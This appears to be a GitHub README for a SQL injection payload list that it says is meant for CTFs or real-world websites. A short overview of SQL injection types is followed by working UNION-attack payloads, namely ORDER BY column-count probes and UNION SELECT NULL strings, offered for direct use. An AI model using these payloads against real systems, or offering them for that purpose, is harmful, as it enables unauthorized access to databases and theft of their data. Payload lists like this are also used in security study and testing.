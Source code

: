 # SQL-Payload-

List of ALl SQL PAyload to be used for CTF or Real World Website !

![image](https://user-images.githubusercontent.com/82144868/210714729-ed83ccfa-6f56-4dce-ae99-d2c3ae8657b0.png)

SQL injection examples
There are a wide variety of SQL injection vulnerabilities, attacks, and techniques, which arise in different situations. Some common SQL injection examples include:

Retrieving hidden data, where you can modify an SQL query to return additional results.
Subverting application logic, where you can change a query to interfere with the application's logic.
UNION attacks, where you can retrieve data from different database tables.
Examining the database, where you can extract information about the version and structure of the database.
Blind SQL injection, where the results of a query you control are not returned in the application's responses.


UNION ATTACK 

-' ORDER BY 1--
+' ORDER BY 2--
*' ORDER BY 3--
etc.

*' UNION SELECT NULL--
*' UNION SELECT NULL,NULL--
*' UNION SELECT NULL,NULL,NULL--
etc


